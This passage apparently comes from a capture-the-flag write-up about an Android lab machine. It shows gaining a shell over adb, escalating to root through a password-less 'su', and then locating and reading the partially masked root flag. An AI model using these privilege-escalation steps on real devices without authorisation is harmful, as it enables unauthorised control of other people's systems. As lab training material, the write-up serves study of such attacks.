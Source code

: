 

`adb shell` will drop to a shell:



    oxdf@parrot$ adb shell
    x86_64:/ $ 



If for some reason there are multiple devices connected from my VM,
`adb -s localhost:5555 shell` will specify which to connect to.

### root

That's still a low-priv connection. Luckily for me, when I connect over
`adb`, `su` with no password will drop to root:



    x86_64:/ $ su
    :/ # id
    uid=0(root) gid=0(root) groups=0(root) context=u:r:su:s0



I'll run `find` to locate the flag (as there's no `/root`) in `/data`:



    :/ # find / -name root.txt 2>/dev/null
    /data/root.txt
    :/ # cat /data/root.txt
    f04fc82b************************








